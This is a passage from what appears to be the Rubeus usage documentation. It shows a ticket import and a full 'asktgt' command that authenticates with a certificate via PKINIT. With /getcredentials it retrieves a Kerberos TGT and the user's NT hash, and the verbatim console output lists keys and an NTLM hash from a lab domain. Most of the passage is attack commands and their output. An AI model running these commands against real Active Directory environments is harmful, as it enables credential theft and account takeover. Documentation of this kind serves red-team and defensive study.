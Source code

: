     [*] Action: Import Ticket
    [*] Target LUID: 0x3c4c241
    [+] Ticket successfully imported!

**Note that the /luid and /createnetonly parameters require elevation!**

Requesting a ticket using a certificate and using `/getcredentials` to retrieve the NT hash:

    C:\Rubeus>Rubeus.exe asktgt /user:harmj0y /domain:rubeus.ghostpack.local /dc:pdc1.rubeus.ghostpack.local /getcredentials /certificate:MIIR3QIB...(snip)...QI/GZmyPRFEeE=

       ______        _
      (_____ \      | |
       _____) )_   _| |__  _____ _   _  ___
      |  __  /| | | |  _ \| ___ | | | |/___)
      | |  \ \| |_| | |_) ) ____| |_| |___ |
      |_|   |_|____/|____/|_____)____/(___/

      v2.0.0

    [*] Action: Ask TGT

    [*] Using PKINIT with etype rc4_hmac and subject: CN=Harm J0y, CN=Users, DC=rubeus, DC=ghostpack, DC=local
    [*] Building AS-REQ (w/ PKINIT preauth) for: 'rubeus.ghostpack.local\harmj0y'
    [+] TGT request successful!
    [*] base64(ticket.kirbi):

          doIF9DCCBfCgAwIBBaEDAgEWooIE7DCCBOhhggTkMIIE4KADAgEFoRgbFlJVQkVVUy5HSE9TVFBBQ0su
                                            ...(snip)...
          YnRndBsWcnViZXVzLmdob3N0cGFjay5sb2NhbA==

      ServiceName              :  krbtgt/rubeus.ghostpack.local
      ServiceRealm             :  RUBEUS.GHOSTPACK.LOCAL
      UserName                 :  harmj0y
      UserRealm                :  RUBEUS.GHOSTPACK.LOCAL
      StartTime                :  14/07/2021 02:25:33
      EndTime                  :  14/07/2021 12:25:33
      RenewTill                :  21/07/2021 02:25:33
      Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
      KeyType                  :  rc4_hmac
      Base64(key)              :  7MS2ajfZo4HedoK+K3dLcQ==
      ASREP (key)              :  9B1C28A276FBBE557D0F9EE153FE24E1

    [*] Getting credentials using U2U

      CredentialInfo         :
        Version              : 0
        EncryptionType       : rc4_hmac
        CredentialData       :
          CredentialCount    : 1
           NTLM              : C69A7EA908898C23B72E65329AF7E3E8


### asktgs
